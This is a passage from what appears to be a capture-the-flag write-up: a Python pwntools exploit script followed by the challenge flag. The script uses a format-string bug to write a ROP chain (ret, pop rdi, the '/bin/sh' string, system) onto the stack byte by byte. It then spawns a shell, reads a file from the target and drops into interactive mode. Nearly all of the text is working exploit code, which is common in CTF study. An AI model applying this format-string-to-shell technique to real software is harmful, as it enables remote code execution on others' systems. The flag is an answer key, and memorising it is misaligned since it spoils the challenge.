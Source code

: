```py
    payload = flat({
        0x0: fmt.encode(),
        0x40: p64(addr),
    })
    io.sendlineafter(b"try again ..\n\n", payload)

def writeQwordAtOffset(qword, offset):
    base_addr = stack + offset * 8

    for i in range(0, 8):
        addr = base_addr + i
        byte = (qword >> (i * 8)) % 0x100
        writeByteAtAddr(byte, addr)

rop = ROP(libc)

writeQwordAtOffset(rop.find_gadget(["ret"])[0], 25)
writeQwordAtOffset(rop.find_gadget(["pop rdi", "ret"])[0], 26)
writeQwordAtOffset(next(libc.search(b"/bin/sh")), 27)
writeQwordAtOffset(libc.sym["system"], 28)

io.sendlineafter(b"try again ..\n\n", password.encode())

io.sendline(b"cat covidless")
io.sendline(b"echo '<<< END >>>'")

f = open("vuln", "wb")
f.write(io.recvuntil(b"<<< END >>>", drop=True))
f.close()

io.interactive()
```

## Flag

```
INS{F0rm4t_5tR1nGs_FuULly_Bl1nd_!Gj!}
```
